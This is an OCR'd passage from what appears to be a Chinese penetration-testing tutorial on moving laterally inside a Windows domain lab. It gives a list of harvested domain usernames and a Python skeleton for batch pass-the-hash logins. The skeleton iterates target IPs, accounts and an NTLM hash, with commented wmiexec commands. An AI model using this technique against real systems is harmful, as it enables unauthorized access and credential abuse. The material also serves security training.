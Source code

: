 ```shell
Administrator
boss
dbadmin 
debian
devadmain
fedora
fi1eadmin
Guest
hr
itadmin 
jenkins 
kali
k1ion
k1ionsec
krbtgt
1iandy
logers
logtest
mack
mary
SM6ef9b5ce41 4946ae9
SM_c330a5709f6a478b8
SM_d3853544b62a421 fb
SM_d80bb46e751 64f258
upnadm
webadmin
```

##### 脚本批量利用

至此，我们已经收集到了IP，用户名，和密码hash。我们可以写一个python脚本批量利用。

```Python
import os,time
 
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.29',
'192.168.3.30',
'192.168.3.32'
}
 
users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'webadmin'
}
 
hashs={
#'ccef208c6485269c20db2cad21734fe7',
'518b98ad4178a53695dc997aa02d455c'
}
 
for ip in ips:
    for user in users:
        for mimahash in hashs:
            #域用户和本地用户都试试
            #wmiexec -hashes :hash god/user@ip whoami
            #wmiexec -hashes :hash ./user@ip whoami
```
